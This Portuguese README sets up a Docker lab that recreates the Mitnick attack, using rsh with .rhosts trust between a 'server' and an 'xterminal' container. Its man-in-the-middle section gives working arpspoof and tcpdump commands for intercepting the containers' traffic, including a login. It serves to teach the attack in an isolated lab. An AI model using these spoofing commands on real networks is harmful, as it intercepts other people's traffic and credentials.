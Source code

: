 # Docker setup

## maquina local

para subir os dois containers rodar
`sudo bash start.sh` \
(duas vezes na primeira vez).

> **informacao de saida usa pra preencher os containers**

- comandos uteis:\
  `docker stop <nome>` \
  `docker rm <nome>`

## containers

- criar usuario no **server**: \
  adduser \<usuario> \
  passwd \<usuario> \
  $ digita senha <senha>

- configurar no **xterm** e no **server**:\
  adicionar IP NOME remoto em /etc/hosts \
  adicionar IP NOME remoto em /root/.rhosts

**No server**

- inicializar serviço servidor

```
server@id:$ /etc/init.d/openbsd-inetd start
```

## mitm

- em localhost: `cat 1 /proc/sys/net/ipv4/ip_forward`
- logar no server pelo **xterminal**:

```
// xterminal
xterm@id:$ rsh <IP_server> -l <username>
digita a senha de <username> do server

server@id:$ while :; do echo "Press [CTRL+C] to stop";sleep 4; done
```

- em **server**

```
server@id:$ tcpdump arp
```

- em **localhost** root:\
  (`ifconfig -a` mostra info do `docker0`)

```
// em uma tab
root@localhost:$ arpspoof -i docker0 -t <IP_server> <IP_xterm>

// em outra tab
root@localhost:$ arpspoof -i docker0 -t <IP_xterm> <IP_server>

// na 3a tab
user@localhost:$ tcpdump -A
```

# Mitnick Attack

https://www.macoratti.net/19/02/dock_imgfile1.htm

- Instalando o docker:

  - Na pasta ./server

    `docker build --rm -t server:1.0 .`

  - Na pasta ./Xterminal

    `docker build --rm -t xterminal:1.0 .`

  - Para ter certeza ue deu certo:

    `docker image ls`

    - Tem que aparecer as duas imagens

- Rodando os servidores:

  `docker run --name server -p 10000:222 server:1.0`

  `docker run --name xterminal -p 10001:222 xterminal:1.0`

- Entrando nos dockers:

  - Em outros novos terminais:

    `docker exec -it server /bin/bash`

    `docker exec -it xterminal /bin/bash`

- Rede

  Aprentemente o Docker cria uma subrede para rodar os containers

  - No meu caso ficou assim:

    server: 172.17.0.2

    xterminal: 172.17.0.3

<!-- Daqui para baixo nada é garantido -->

- Adicionando nome de host em /etc/hosts

  - No servidor:

        `echo "127.0.0.1    localhost

    ::1 localhost ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    172.17.0.2 <host_server>
    172.17.0.3 <host_client>" > /etc/hosts`

  - No cliente:

        `echo "127.0.0.1    localhost

    ::1 localhost ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    172.17.0.3 <host_client>
    172.17.0.2 <host_server>" > /etc/hosts`

- Adicionando usuários em ~/.rhosts:

  - No servidor:

    `echo "172.17.0.3      <host_client>" > ~/.rhosts`

  - No cliente:

    `echo "172.17.0.2   <host_server>" > ~/.rhosts`

